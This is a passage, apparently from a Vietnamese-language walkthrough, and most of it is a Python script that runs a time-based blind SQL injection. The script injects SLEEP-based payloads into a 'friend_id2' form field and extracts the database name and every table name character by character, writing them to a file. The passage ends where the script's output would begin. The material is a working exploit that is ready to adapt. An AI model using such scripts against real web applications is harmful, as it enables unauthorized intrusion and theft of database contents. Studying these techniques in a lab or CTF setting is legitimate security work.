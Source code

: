 ```python
            payload = f"1' AND IF(SUBSTRING(({query_template}),{index},1)='{char}', SLEEP(20), 0) -- "
            data = {"friend_id": "21", "friend_id2": payload, "add_submit": "Addfriend"}
            start_time = time.time()
            response = requests.post(url, data=data, headers=headers, cookies=cookies)
            elapsed_time = time.time() - start_time
            if elapsed_time > TIME_THRESHOLD:
                extracted_value += char
                sys.stdout.write(f"\r[+] Extracting {description}: {extracted_value}")
                sys.stdout.flush()
                found = True
                break
        if not found:
            break
        index += 1
    print()
    return extracted_value
# 1️⃣ Extract Database Name
database_name = brute_force_sql("SELECT database()", "Database Name")
# 2️⃣ Extract All Table Names
table_names = []
table_index = 0
while True:
    table_name = brute_force_sql(
        f"SELECT table_name FROM information_schema.tables WHERE table_schema='{database_name}' LIMIT 1 OFFSET {table_index}",
        f"Table Name {table_index + 1}"
    )
    if table_name == "":
        break
    table_names.append(table_name)
    table_index += 1
with open("tables.txt", "w") as f:
    for table in table_names:
        f.write(table + "\n")
print("\n📋 List of Tables:")
for i, table in enumerate(table_names, 1):
    print(f"  {i}. {table}")
print("\n✅ Danh sách bảng đã được lưu vào file 'tables.txt'")
```

Có thể tăng thời gian sleep để có kết quả càng chính xác hơn.

Kết quả từ script `table_exploit.py`:
